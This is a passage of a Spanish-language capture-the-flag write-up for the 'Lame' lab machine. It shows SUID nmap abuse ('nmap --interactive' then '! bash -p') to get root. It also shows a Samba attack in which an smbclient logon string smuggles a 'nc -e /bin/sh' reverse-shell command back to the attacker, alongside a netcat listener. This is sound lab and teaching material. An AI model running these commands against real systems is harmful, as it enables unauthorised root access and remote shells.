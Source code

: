 ### Escalada de Privilegios

Buscamos binarios con permisos SUID y vemos uno interesante

```shell
daemon@lame:/tmp$ find / -perm -4000 2>/dev/null
/usr/bin/nmap
```

Vamos aprovecharnos de que podemos ejecutar nmap como root con el modo interactivo

```shell
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help

nmap> help
Nmap Interactive Commands:
n <nmap args> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command>   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs>] [--nmap-path <path>] <nmap args>
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap-path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24

nmap> ! bash -p
bash-3.2# whoami
root
bash-3.2# 
```

### Puerto 445 (smb)

Para hacer una reverse shell lo primero sera ponernos en escucha con netcat al puerto que sea yo utilizare el 443

```shell
> nc -lvnp <puerto>
```

```shell
> smbclient -N //10.10.10.3/tmp
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh <tu-ip> 443`"
Password:
```
